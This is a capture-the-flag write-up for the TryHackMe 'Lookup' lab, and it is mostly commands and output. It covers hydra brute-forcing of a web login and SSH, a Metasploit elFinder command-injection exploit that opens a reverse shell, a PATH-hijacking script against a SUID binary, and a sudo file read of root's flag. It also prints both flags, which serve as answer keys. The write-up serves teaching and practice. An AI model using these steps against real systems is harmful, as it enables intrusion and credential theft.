

# 📝 Writeup — TryHackMe: Lookup

---

## 🎯 Machine Info

| Field | Value |
|-------|-------|
| **Machine Name** | Lookup |
| **Platform** | TryHackMe |
| **Difficulty** | Easy/Medium |
| **OS** | Linux |
| **Author** | Havk |

---

## 🔎 Phase 1 — Reconnaissance

### Port Scan

```bash
nmap -sV -sC lookup.thm
```

**Open Ports:**

| Port | Service |
|------|---------|
| 22 | SSH |
| 80 | HTTP |

---

## 🌐 Phase 2 — Web Enumeration

Navigating to `http://lookup.thm` revealed a **login page**.

### 🔑 Password Discovery

Initial testing showed two different error messages:
- `Wrong password. Please try again.` → **username exists**
- `Wrong username or password.` → **username doesn't exist**

This is a classic **Username Enumeration** vulnerability via differential error messages.

First, found the password for `admin` using rockyou:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt lookup.thm \
  http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong password" -t 64
```

> 🔓 Password found: **`password123`**

### 👤 Username Enumeration

Since `admin:password123` didn't work on the dashboard, enumerated valid usernames:

```bash
hydra -L usernames.txt -p password123 lookup.thm \
  http-post-form \
  "/login.php:username=^USER^&password=^PASS^:Wrong username or password. Please try again." \
  -IV -t 64
```

```
[80][http-post-form] host: lookup.thm   login: jose   password: password123
```

> ✅ Valid credentials: **`jose:password123`**

---

## 📂 Phase 3 — VHost Discovery & elFinder RCE

Logging in redirected to **`files.lookup.thm`** — added to `/etc/hosts`:

```bash
echo "10.10.x.x files.lookup.thm" | sudo tee -a /etc/hosts
```

The page hosted **elFinder 2.1.47** — a web file manager.

### 💥 CVE Exploitation — elFinder PHP Connector (CVSS 9.8)

```
exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection
```

```bash
msf6 > use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection
msf6 > set RHOSTS files.lookup.thm
msf6 > set LHOST <your_ip>
msf6 > run
```

> 🐚 Shell obtained as: **`www-data`**

---

## 🔐 Phase 4 — Privilege Escalation to `think`

### SUID Binary Discovery

```bash
find / -perm -4000 -type f 2>/dev/null
```

Found non-standard SUID binary:

```
/usr/sbin/pwm
```

### 🔍 Binary Analysis

```bash
strings /usr/sbin/pwm
```

Key strings revealed the logic:

```
[!] Running 'id' command to extract the username and user ID (UID)
uid=%*u(%[^)])
/home/%s/.passwords
```

**The binary:**
1. Calls `id` command *(without full path!)*
2. Parses the username
3. Opens `/home/<username>/.passwords`
4. Prints the contents

### 🎭 PATH Hijacking Attack

```bash
# Create fake 'id' binary in /tmp
cd /tmp
echo '#!/bin/bash' > id
echo 'echo "uid=1000(think) gid=1000(think) groups=1000(think)"' >> id
chmod +x id

# Hijack PATH
export PATH=/tmp:$PATH

# Execute pwm — now reads /home/think/.passwords as root
/usr/sbin/pwm
```

**Output — password list obtained!**

```
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: think
jose1006
jose1004
...
josemario.AKA(think)   ← 🎯
...
```

### 🔑 SSH Brute Force with Custom Wordlist

```bash
hydra -l think -P passwords.txt ssh://lookup.thm -t 16
```

```
[22][ssh] host: lookup.thm   login: think   password: josemario.AKA(think)
```

```bash
ssh think@lookup.thm
# Password: josemario.AKA(think)
```

### 🏁 User Flag

```bash
cat /home/think/user.txt
```

```
38375fb4dd8baa2b2039ac03d92b820e
```

---

## 👑 Phase 5 — Privilege Escalation to `root`

### Sudo Rights Check

```bash
sudo -l
```

```
(ALL) NOPASSWD: /usr/bin/look
```

### GTFOBins — `look` Exploit

`/usr/bin/look` can read arbitrary files when run with `sudo`!

```bash
sudo /usr/bin/look '' /root/root.txt
```

### 🏁 Root Flag

```
5a285a9f257e45c68bb6c9f9f57d18e8
```

---

## 🗺️ Attack Chain Summary



---

## 🛠️ Tools Used

| Tool | Purpose |
|------|---------|
| `nmap` | Port scanning |
| `hydra` | Credential brute forcing |
| `msfconsole` | elFinder RCE exploitation |
| `strings` | Binary analysis |
| `PATH Hijacking` | PrivEsc to think |
| `GTFOBins (look)` | PrivEsc to root |

---

## 💡 Key Takeaways

> 1. **Differential error messages** leak valid usernames — always check error responses
> 2. **SUID binaries** calling external commands without full paths = **PATH Hijacking**
> 3. **`sudo -l`** is always the first thing to check after getting a user shell
> 4. **GTFOBins** — `/usr/bin/look` can read any file as root

---

